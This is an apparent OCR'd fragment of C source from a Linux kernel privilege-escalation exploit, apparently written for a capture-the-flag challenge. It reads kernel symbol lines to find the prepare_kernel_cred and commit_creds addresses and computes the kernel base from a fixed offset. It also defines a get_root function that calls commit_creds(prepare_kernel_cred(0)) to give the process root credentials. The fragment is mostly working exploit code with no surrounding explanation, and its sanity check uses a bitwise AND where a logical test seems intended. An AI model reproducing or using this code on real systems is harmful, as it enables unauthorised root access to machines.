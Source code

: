 ```C

		}



		if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)

		{

			/* puts(buf); */

			char hex[20] = {0};

			strncpy(hex, buf, 16);

			sscanf(hex, "%llx", &prepare_kernel_cred);

			printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);

			vmlinux_base = prepare_kernel_cred - 0x9cce0;

			/* printf("vmlinux_base addr: %p\n", vmlinux_base); */

		}

	}



	if(!(prepare_kernel_cred & commit_creds))

	{

		puts("[*]Error!");

		exit(0);

	}



}





void get_root()

{

char * (* pkc) (int) = prepare_kernel_cred;
	void (*cc)(char*) = commit_creds;

(* cc) ((* pkc) (0));
	/* puts("[*] root now."); */

}



void set_off(int fd, long long idx)

```